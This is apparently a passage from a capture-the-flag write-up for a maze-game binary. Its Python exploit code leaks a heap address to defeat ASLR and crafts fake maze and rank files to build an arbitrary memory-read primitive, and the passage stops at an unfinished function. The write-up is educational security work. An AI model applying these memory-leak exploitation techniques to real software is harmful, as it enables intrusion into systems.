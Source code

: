 ```python
register('A')
load('leak.rank')
leak = scoreboard()
leak = leak.split(b'created by ', 1)[1]
heapaddr = u64(leak[0x80:0x86] + b'\0\0')
log.info("leaked heap address: 0x%x", heapaddr)
```

The next step is to start leaking memory at arbitrary addresses. We can achieve this by constructing and loading a "type 4" maze file. A few tricky points:

- The rank name is the only practical place to put the address, since the score cannot be much larger than 2^32 (trap scores are limited to `int` by default)
- The name is read using `%s` so addresses with whitespace characters in them won't work (not a big limitation - if we hit this, we just reconnect to let ASLR give us different addresses)
- The LSB of the address is the number of traps, so if we want to construct an address with a high LSB, we need a lot of traps - which means the `.rank` file must be big enough or the loader will fail

Luckily, these aren't terribly difficult to address. I over-engineered my code a bit to allow (almost) arbitrary addresses to be used (by adjusting the LSB to avoid whitespace or null characters):

```python
def is_ok_addr(addr):
    saddr = p64(addr).rstrip(b'\0')
    for c in saddr:
        if c == 0 or bytes([c]).isspace():
            return False
    return True

def make_fake_maze(addr):
    saddr = p64(addr).rstrip(b'\0')
    assert is_ok_addr(addr), "address 0x%x cannot be used" % addr

    lsb = saddr[0]
    iters = ((lsb - 1) * 11 + 135) // 136
    width = 127 - (iters + 3 + len(saddr))
    name = bytearray()
    name += b'A' * iters
    name += b'\4' # type
    name += bytes([width, 1]) # width, height
    name += b'B' * width # grid data
    name += saddr # num traps + trap[0].score
    assert len(name) == 127

    register(bytes(name))

    # Note: maze name must not start with a number!
    mazename = 'X' + os.urandom(8).hex()
    menu(2) # create
    s.sendline('1') # classic
    s.sendline('c') # custom
    s.sendline('3') # w = h = 5
    s.sendline('3')
    s.sendline('y') # save
    s.sendline(mazename) # save
    for i in range(iters + 1):
        menu(4) # play
        # <q >d ^z vs
        s.sendline('d')

    load(mazename + '.rank')
    return width

def do_leak(addr):
```